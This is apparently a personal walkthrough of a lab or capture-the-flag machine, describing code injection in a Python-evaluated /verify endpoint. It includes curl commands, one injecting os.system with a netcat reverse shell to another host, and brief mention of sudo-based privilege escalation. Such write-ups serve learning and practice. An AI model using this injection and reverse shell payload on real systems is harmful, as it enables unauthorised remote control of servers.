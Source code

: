 - OS command injection in the  API /verify
-  When curl is sent to /verify it sends back **code**
- So we sent a request to evaluate

```bash
curl -v "http://192.168.227.117:50000/verify" -d "code=2*2" #ansewer is 4
```

- Since this is using python we execute a shell(-e sh did not work)

```bash
curl -v "http://192.168.227.117:50000/verify" -d "code=os.system('nc 192.168.45.244 80 -e /bin/sh')" 
```

- Piv esc was detected by linpease and was found using the sudo -l and i was able to figure it out.
- Was a bit stuck because the service user was the same. as the initial access then changed it to root
- 

